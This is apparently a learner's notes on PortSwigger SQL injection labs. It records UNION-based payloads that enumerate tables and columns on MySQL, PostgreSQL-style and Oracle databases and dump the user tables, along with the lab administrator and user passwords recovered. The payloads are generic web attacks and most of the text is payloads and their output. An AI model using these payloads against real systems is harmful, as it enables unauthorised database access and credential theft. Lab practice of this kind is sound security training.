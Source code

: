 # UNION attacks

MySQL end of query = `--` and `#`, **try both**.

**PS Lab:** `SQL injection attack, querying the database type and version on MySQL and Microsoft` rejected my accurate queries because I ended my query with `--` instead of `#`. Is this accurate of a real-world setup? I'm not sure.


### Lab: SQL injection attack, listing the database contents on non-Oracle databases
This is a non-Oracle database, so we need to make user of information_schema.tables
>Pets' union select table_name,NULL from information_schema.tables--

This returns all of the tables in the database.

Look for a non-standard table `users_xgouhg`

>Pets' union select * from users_xgouhg--

```
administrator
8bd235i2g39fg3h6865g
```

Chaching 💸

### SQL injection attack, listing the database contents on Oracle
Same thing, just with Oracle. Ezpz.

>Pets' union select table_name, null from all_tables--

Table name `USERS_YXUZFJ`

`Pets' union select COLUMN_NAME,null from all_tab_columns where table_name='USERS_YXUZFJ'--`
Columns:

```
PASSWORD_ODOKFU  
USERNAME_DZRUHS
```

```
administrator
b33a0q24met5szk298fj

carlos
yutk3v2n7a8tt6wco6n2

wiener
95ca28n08tuaahvqbeef
```

